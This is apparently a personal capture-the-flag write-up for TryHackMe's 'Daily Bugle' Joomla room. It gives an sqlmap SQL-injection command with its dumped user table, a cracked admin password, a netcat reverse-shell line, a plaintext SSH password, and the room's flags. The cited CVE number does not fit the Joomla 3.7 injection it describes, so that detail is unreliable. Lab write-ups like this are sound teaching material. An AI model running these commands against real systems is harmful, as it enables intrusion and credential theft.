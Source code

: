 ### Daily Bugle ###

export IP=10.10.134.70

firstly...nmap showed the CMS is:Joomla...and its corresponding common dirs...gobuster did the same and a few more...

found README.txt which contained information about Joomla..lets see what else is there..

Joomla version:3.7

# Exploit-DB:
Found an SQL Injection attack...lets see if we can do that
CVE-2019-8917

I am assuming i can because it runs as: [URL]/index.php?....
So i dont need initial access anyways...
Tryhackme suggested to use a python script instead of sqlmap so trying that ofc love it <3

sqlmap -u "http://10.10.105.204/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms=mysql -p list[fullordering] --dump (Forgot this dump lol)


Database: joomla
Table: #__users
[1 entry]
+------+---------------------+------------+---------+----------+--------------------------------------------------------------+
| id   | email               | name       | params  | username | password                                                     |
+------+---------------------+------------+---------+----------+--------------------------------------------------------------+
| 811  | jonah@tryhackme.com | Super User | <blank> | jonah    | 	$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+------+---------------------+------------+---------+----------+--------------------------------------------------------------+

Found the pass with johnTheRipper:spiderman123

Logged in as:jonah:spiderman123

as soon as i log in i get a warning about php version:	5.6.40..

and i have some unread msgs	

nc -e /bin/sh 10.11.18.102 7000
name - jjameson
pass - nv5uz9r3ZEDzVjNu

user.txt:
27a260fe3cba712cfdedb1c86d80442e

root.txt:
eec3d53292b1821868266858d7fa6f79